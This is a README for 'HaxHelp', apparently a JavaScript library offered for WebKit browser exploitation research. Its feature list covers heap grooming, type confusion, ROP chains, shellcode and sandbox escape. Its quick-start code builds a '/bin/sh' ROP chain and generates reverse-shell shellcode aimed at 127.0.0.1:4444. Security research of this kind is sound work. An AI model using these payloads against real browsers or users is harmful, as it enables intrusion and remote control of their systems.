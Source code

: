# HaxHelp - Advanced WebKit Exploitation Framework

A comprehensive JavaScript library designed to aid security researchers in WebKit vulnerability analysis and exploit development. Also check out [jitPhone!](https://github.com/SammyLord/jitphone)

## ⚠️ Legal and Ethical Use Only

This library is intended for:
- Security research and vulnerability analysis
- Bug bounty hunting on authorized targets
- Penetration testing with proper authorization
- Educational purposes in controlled environments
- Defensive security research

**DO NOT use this library for malicious purposes or on systems you don't own or have explicit permission to test.**

## Features

### Core Utilities
- **Memory Management**: Advanced heap grooming, garbage collection control, memory corruption detection
- **Object Inspection**: Deep object analysis, property enumeration, prototype chain inspection
- **Type Confusion**: Advanced utilities for type confusion vulnerability research
- **ROP Chain Building**: Comprehensive return-oriented programming chain construction
- **Debugging**: Advanced debugging and introspection tools with crash analysis
- **Shellcode**: Shellcode generation, encoding, and payload management

### WebKit Specific
- **JIT Analysis**: JavaScript JIT compiler analysis and manipulation tools
- **Engine Internals**: WebKit/JavaScriptCore internals exploration and exploitation
- **DOM Manipulation**: Advanced DOM object manipulation and corruption techniques
- **Memory Layout**: Heap layout analysis, visualization, and controlled corruption
- **Browser Exploitation**: Browser-specific exploitation techniques and primitives

### Advanced Exploitation
- **Use-After-Free**: UAF vulnerability simulation and exploitation frameworks
- **Buffer Overflow**: Advanced buffer overflow detection and exploitation tools
- **Information Disclosure**: Memory disclosure and information leakage techniques
- **Privilege Escalation**: Browser sandbox escape and privilege escalation utilities
- **Exploit Development**: Complete exploit development and testing framework

## Installation

```html
<script src="haxhelp.js"></script>
```

## Quick Start

```javascript
// Initialize the library
const hh = new HaxHelp();

// Advanced memory manipulation
hh.memory.advancedGrooming(0x1000, 200, 'controlled');

// Object analysis with exploitation focus
const analysis = hh.inspect.deepAnalyze(targetObject, 'exploitation');

// ROP chain building with automatic gadget discovery
const ropChain = hh.rop.autoChain({
    target: 'system_call',
    args: ['/bin/sh'],
    constraints: ['no_null_bytes']
});

// Advanced shellcode generation
const shellcode = hh.shellcode.generate({
    type: 'reverse_shell',
    host: '127.0.0.1',
    port: 4444,
    encoding: 'alphanumeric'
});
```

## Documentation

See the `docs/` directory for detailed documentation and examples.

## Responsible Disclosure

If you discover vulnerabilities using this library, please follow responsible disclosure practices and report them to the appropriate vendors through official channels.

## License

MIT License - See LICENSE file for details.

## Author

Created by Sammy Lord - Advanced security researcher and exploit developer.

## Contributing

Contributions are welcome! Please ensure all contributions align with responsible security research practices. 
